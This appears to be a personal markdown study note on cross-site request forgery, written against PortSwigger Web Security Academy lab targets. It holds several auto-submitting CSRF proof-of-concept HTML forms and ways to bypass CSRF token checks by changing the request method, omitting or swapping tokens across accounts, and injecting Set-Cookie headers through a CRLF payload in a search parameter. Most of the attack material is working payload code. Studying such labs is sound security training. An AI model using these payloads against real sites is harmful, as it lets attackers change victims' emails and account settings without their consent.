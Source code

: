 # Cross-Site Request Forgery

## Burp Suite CSRF PoF 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8c00430370cdb281bc2110000d005a.web-security-academy.net/my-account" method="POST">
      <input type="hidden" name="id" value="wiener" />
      <input type="hidden" name="csrf" value="ASLKCEVLASKSfaksW" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### Check if there's any csrf defense mechanism
We can check this by omitting the **`<input type="hidden" name="csrf" value="ASLKCEVLASKSfaksW" />`** part from the above payload. 

### CSRF where token validation depends on request method
Most requests are POST request, which validate the csrf token. However, when chaning these requests to other methods, the token is no longer valid. We can test this by changing the request method.

### CSRF where token validation depends on token bieng present
The token is only validated when it is present. When it is not ( by omitting the value field or the whole thinig like no defense mechanism scenario), there is no CSRF tokekn validation.

### CSRF token is not tied to the user session
Check if we can use CSRF token of 1 account to exploit another account. 
1. Log in account A and acquire its token
2. Log in account B and deliver the payload, modify the token with account A's token

### CSRF token is tied to a non-session cookie
Some applications use different frameworks for csrf tokens, which results in two different tokens being present at the same titme.

```bash
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

1. Check if the `csrfKey` is tied to `csrf`

| Steps | Results |
| ----- | ------- |
| Log in as `wiener:peter` and acquire the user's `csrfKey` and `csrf` values | |
| Capture the request trying to change the user's email. Modify the csrf token so it becomes invalid | If the application accepts the request, we can conclude the csrfKey and csrf are not tied together. Otherwise, continue to the next step. |
| Log in as `carlos:montoya` and capture the user's csrf. Replace wiener's csrf token with carlos' | If the application accepst the request, we can conclud the csrfKey and csrf are not tied together. Otherwise, continue to the next step. |
| Log in as `wiener:peter` and replace wiener's csrfKey and csrf tokens with carlos' | If the application accepts the request, we can conclue the csrf and csrfKey are tied together but the pair doesn't tie to the user-session cookie

2. Look for a functionality that allows us to modify the csrfKey. In this case, we can inject in the search function through GET request

```bash
https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()
```
In the response, we should see the `csrfKey` is set as we wish.
4. Deliver the payload

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac5009504bab9d186967b5f002b0096.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hello&#64;world&#46;com" />
      <input type="hidden" name="csrf" value="Your-csrf" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-csrfKey%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
**NOTE:** In this case, we assume the search function allows us to set cookies. We can do it directly in the developer tool.

### CSRF where token is duplicated in cookie
Some applications have both csrf token in the session cookies and the request

```bash
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

1. Here we can make up any value for the csrf, either through the Developer Tools or through some functionalities that allow us to set cookie.
2. Deliver the payload (which has csrf set to the value we make up in step 1)

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8500dc04f529b58343a52300a900b2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="oops12345&#64;example&#46;com" />
      <input type="hidden" name="csrf" value="random" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a8500dc04f529b58343a52300a900b2.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=random%3b%20SameSite=None" onerror="document.forms[0].submit();" />
  </body>
</html>
```

